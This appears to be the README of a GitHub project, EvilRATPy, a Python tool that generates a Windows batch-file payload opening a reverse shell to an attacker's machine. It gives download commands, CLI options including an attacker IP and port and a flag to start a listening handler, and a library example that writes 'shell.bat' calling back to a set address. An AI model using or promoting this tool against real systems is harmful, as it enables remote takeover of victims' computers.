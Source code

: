 # EvilRATPy

Implementation of [EvilRat by pr0xy-8L4d3](https://github.com/pr0xy-8L4d3/EvilRAT) in Python. No `msfvenom` dependency.

## Installation

```bash
# via git clone
git clone https://github.com/dix0nym/EvilRATPy.git
cd EvilRATPy

# via direct download
wget https://raw.githubusercontent.com/dix0nym/EvilRATPy/main/evilRAT.py
```

## Usage

Python implementation works on Windows and on Linux. Available Options for the payload encoding are the same as the original version (`syswow64` and `noexit`).
`EvilRATPy` can be used as CLI as well as by integrating it in another Python script.

### CLI

```bash
$ python evilRAT.py -h
usage: evilRAT.py [-h] [-o OUTPUT] [--handler] [--no-noexit] [--no-syswow64] lhost lport

Python Implementation of EvilRat

positional arguments:
  lhost                 ip address of attacker machine
  lport                 port of attacker machine

options:
  -h, --help            show this help message and exit
  -o OUTPUT, --output OUTPUT
                        output filename
  --handler             flag to start handler after generating payload
  --no-noexit           disable noexit option on payload
  --no-syswow64         disable usage of syswow64 powershell in payload
```

### Python Library

```python
from pathlib import Path
from evilRAT import createFinalPayload

outputPath = Path("shell.bat")
lhost = "192.168.178.2"
createFinalPayload(outputPath, lhost, 4242)
```
